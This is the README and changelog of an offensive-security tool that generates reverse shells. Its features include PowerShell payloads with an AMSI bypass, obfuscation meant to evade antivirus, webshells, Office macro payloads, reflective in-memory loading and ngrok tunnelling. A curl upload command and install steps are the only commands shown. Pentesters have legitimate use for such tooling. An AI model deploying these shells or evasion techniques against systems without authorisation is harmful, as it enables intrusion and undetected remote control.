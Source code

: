 # shells
A script for generating common revshells fast and easy. <br>
Especially nice when in need of PowerShell and Python revshells, which can be a PITA getting correctly formated.<br><br> 

## PowerShell revshells<br> 
- Shows username@computer, above the prompt and working-directory
- Has a partial AMSI-bypass making some stuff a bit easier, like loading a full AMSI bypass.
- TCP and UDP shells 
- Windows Powershell and Core Powershell
- Functions for uploading and downloading files. (Using [Updog](https://github.com/sc0tfree/updog) by sc0tfree)

## ngrok support
- ngrok can be started/stopped from inside the script
- payloads will be genereated with the ngrok addresses

## Updog support
- you can start/stop Updog from inside the script
- The PowerShell revshells have upload/download function embedded
- To upload from nix using curl: 
```curl -F path="absolute path for Updog-folder" -F file=filename http://UpdogIP/upload```
 
 
### To install Shells
	git clone https://github.com/4ndr34z/shells
	cd shells
	./install.sh


### Screenshots

![Main](https://github.com/4ndr34z/shells/blob/main/screenshots/macOS143.png?raw=true)
![Netcat](https://github.com/4ndr34z/shells/blob/main/screenshots/netcat1.png?raw=true)
![pwsh](https://github.com/4ndr34z/shells/blob/main/screenshots/pwsh.png?raw=true)
![screenshot3](https://github.com/4ndr34z/shells/blob/main/screenshots/shells2.png?raw=true)
![screenshot4](https://github.com/4ndr34z/shells/blob/main/screenshots/shells3.png?raw=true)
![screenshot5](https://github.com/4ndr34z/shells/blob/main/screenshots/shells4.png?raw=true)
![screenshot6](https://github.com/4ndr34z/shells/blob/main/screenshots/SimpleRevshell.png?raw=true)

### Youtube video
[Link](https://youtu.be/HDrzqiyKQtA)


### Version 1.5.0
- PowerShell: Added VBA payloads for MS Office Macros
- Added some node.js payloads


### Version 1.4.9
- Added a simple C# shell.  
- Added payload for reflective loading the C# shell into memory. (Needs full AMSI bypass)
- Covering this by adding Rastamouse's full AMSI Bypass
- PowerShell: You can automatically upload and run full AMSI bypass. The partitial AMSI bypass makes this possible.
- C# Shell: Automatically upload and run full AMSI bypass before loading it into memory
- Updog and ngrok status showing in every menu


### Version 1.4.8
- Sometimes less is more. Removed the obfuscating on TCP/UDP PowerShell revshells, because it actually triggers AV more than it bypasses and the payload got really big :-) Still using randomization.


### Version 1.4.6
- Added webshells (ASPX, PHP, JSP)


### Version 1.4.5
- Added 2 c++ revshell binaries for Windows 32 and 64 bit. 


### Version 1.4.4
- Fixed the handling of starting/stopping Updog


### Version 1.4.3
- Added Updog support
- Added Netcat binaries. 
- Powershell: Created upload/download functionality (upload requires Updog for receiving files)
- Added more information about running ngrok and Updog. 

### Version 1.4.2
- PowerShell: Added a new "mini AMSI-bypass". (It is a partial bypass) Based on Matt Graebers Reflection method 
- PowerShell: Added a "upload" function in the Powershell reverseshell

### Version 1.4.1
- Removed AMSI. Not tested enough :-)


### Version 1.4
- Added AMSI-bypass for the powershell payloads

### Version 1.3.9
- Fixed bug when setting port
- Changed default port to 443
- PowerShell: obfuscated some more


### Version 1.3.8
- PowerShell: Minor changes to the UDP payload


### Version 1.3.7
- Using only native nc on macOS, because the one on homebrew doesn't work on incoming UDP
- PowerShell: Added UDP payloads


### Version 1.3.6
- PowerShell: Added more payloads


### Version 1.3.5
- PowerShell: Added some randomization and obfuscation for the payload


### Version 1.3.4
- PowerShell: Using UTF8 encoding in payload


### Version 1.3.3
- Added Golang


### Version 1.3.2
- Added OpenSSL


### Version 1.3.1
- Fixed bug in Python revshell
- Added awk
- Added Bash UDP 


### Version 1.3
- Added Windows Python revshells


### Version 1.2.9
- Added a ngrok running-status


### Version 1.2.8
- Hiding ngrok choice if not installed


### Version 1.2.7
- Fixed the install options: not doing default option when pressing enter without making a choice


### Version 1.2.6
- Added support for ngrok. 


### Version 1.2.4
- Added a install-script
- Added install options for checking and installing missing dependencies


### Version 1.2.3
- Added a couple of PHP shells


### Version 1.2.2
- Added shells for: Ruby, Perl, Telnet and zsh


### Version 1.2.1
- Added copy to clipboard using pbcopy on macOS
- Added info about listening netcat as the macOS versions doesn't display that


### Version 1.2
- Added looping netcat shells. Calls back every 10 seconds. Great in case you loose your shell
- Added check for netcat GNU netcat 0.7.0 Homebrew when running on macOS


### Version 1.1
- Added support for macOS
